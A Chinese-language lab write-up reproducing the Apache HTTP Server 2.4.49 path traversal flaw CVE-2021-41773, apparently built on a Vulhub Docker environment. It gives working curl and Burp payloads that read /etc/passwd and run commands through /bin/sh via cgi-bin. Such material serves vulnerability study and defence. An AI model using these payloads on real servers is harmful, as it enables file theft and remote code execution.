




# Apache HTTP_2.4.49_路径穿越漏洞(CVE-2021-41773)


| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2021-41773                                               |
| 漏洞名称 | Apache HTTP  路径穿越漏洞                                    |
| 漏洞评级 | 高危                                                         |
| 影响范围 | 2.4.49                                                       |
| 漏洞描述 | 在Apache HTTP Server 2.4.49中对路径规范化所做的更改中发现了一个缺陷。攻击者可以使用路径遍历攻击将URL映射到预期文档根目录之外的文件 |
| 修复方案 |                                                              |


### 1.1、漏洞描述

Apache HTTP服务器项目致力于为现代操作系统（包括UNIX和Windows）开发和维护开源HTTP服务器。

在Apache HTTP Server 2.4.49中对路径规范化所做的更改中发现了一个缺陷。攻击者可以使用路径遍历攻击将URL映射到预期文档根目录之外的文件。

如果这些目录之外的文件不受通常的默认配置“要求全部拒绝”的保护，则这些请求可以成功。如果CGI脚本也为这些别名路径启用，则可以允许远程代码执行。

### 1.2、漏洞等级

高危

### 1.3、影响版本

Apache HTTP Server 2.4.49

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/httpd/CVE-2021-41773

---

启动测试环境：

```bash
sudo docker-compose build
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到




#### 2、漏洞验证

##### 方式一 curl

`/icons/`必须是现有目录

```bash
curl -v --path-as-is http://192.168.80.141:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```



在服务器上启用`mods cgi`或`cgid`后，此路径遍历漏洞将允许执行任意命令

```bash
curl -v --data "echo;id" 'http://192.168.80.141:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```



##### 方式二  bp抓包

```bash
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```


```bash
/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
echo;id
```




